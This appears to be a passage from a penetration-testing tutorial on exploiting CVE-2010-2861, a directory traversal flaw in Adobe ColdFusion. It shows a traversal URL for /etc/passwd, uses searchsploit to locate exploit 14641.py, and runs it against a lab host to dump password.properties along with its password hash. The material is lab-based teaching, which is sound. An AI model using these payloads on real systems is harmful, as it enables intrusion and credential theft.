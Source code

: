 However, the `directory` parameter is not validated correctly, which makes the application vulnerable to a Path Traversal attack. An attacker can exploit this vulnerability by manipulating the `directory` parameter to access files outside the `uploads` directory:
```http
http://example.com/index.cfm?directory=../../../etc/&file=passwd
```

`CVE-2010-2861` is the `Adobe ColdFusion - Directory Traversal` exploit discovered by `searchsploit`. It is a vulnerability in ColdFusion that allows attackers to conduct path traversal attacks.

- `CFIDE/administrator/settings/mappings.cfm`
- `logging/settings.cfm`
- `datasources/index.cfm`
- `j2eepackaging/editarchive.cfm`
- `CFIDE/administrator/enter.cfm`

These ColdFusion files are vulnerable to a directory traversal attack in `Adobe ColdFusion 9.0.1` and `earlier versions`. Remote attackers can exploit this vulnerability to read arbitrary files by manipulating the `locale parameter` in these specific ColdFusion files.

Using `searchsploit`, copy the exploit to a working directory and then execute the file to see what arguments it requires:
```shell-session
$ searchsploit -p 14641

  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
File Type: Python script, ASCII text executable

Copied EDB-ID #14641's path to the clipboard
```

### Coldfusion - Exploitation

```shell-session
$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
$ python2 14641.py 

usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
```

The `password.properties` file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password. These encrypted passwords are used for services like `database connections`, `mail servers`, `LDAP servers`, and other resources that require authentication. By storing encrypted passwords in this file, ColdFusion can automatically retrieve and use them to authenticate with the respective services without requiring the manual entry of passwords each time. The file is usually in the `[cf_root]/lib` directory and can be managed through the ColdFusion Administrator.

### Coldfusion - Exploitation
```shell-session
$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
```